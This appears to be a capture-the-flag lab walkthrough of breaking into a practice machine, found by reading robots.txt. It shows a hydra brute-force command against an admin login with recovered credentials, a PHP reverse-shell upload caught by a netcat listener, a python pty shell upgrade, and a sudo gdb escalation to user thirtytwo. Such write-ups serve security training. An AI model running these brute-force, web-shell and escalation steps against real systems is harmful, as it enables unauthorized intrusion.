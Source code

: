 http://<machine ip>/robots.txt  


> User-Agent: *
> Disallow : /admin-dir

I told d4rckh we should hide our things deep.


lets check the directory  

http://<machine ip>//admin-dir  

now we get  user-id file and credentials.txt file  

now we have some user id and some password   

lets bruteforce the admin portal  

> **hydra -L user.txt  -P credentials.txt 10.10.6.38  http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^&Login=Login:F=Incorrect * "**  
 

```
[STATUS] 99.00 tries/min, 99 tries in 00:01h, 1214 to do in 00:13h, 16 active
[80][http-post-form] host: 10.10.6.38   login: enox   password: P@ssword1234

```   

we get an upload box  
we can try to upload a reverse php shell


and shart our netcat listener  

> **nc -lvnp <port>**  

we get a /images folder  from the gobuster  
visit and we get /uploads   folder  
select our php file   

and we have our shell   

make it interactive shell using python  

> **python -c 'import pty;pty.spawn("/bin/bash");'**  

> **sudo -l**  
 ```
www-data@ubuntu-xenial:/$ sudo -l
Matching Defaults entries for www-data on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu-xenial:
    (thirtytwo) NOPASSWD: /var/www/gdb  
```
let's search priv esc on **https://gtfobins.github.io/**

> **sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit**  

we are now the user thirtytwo  
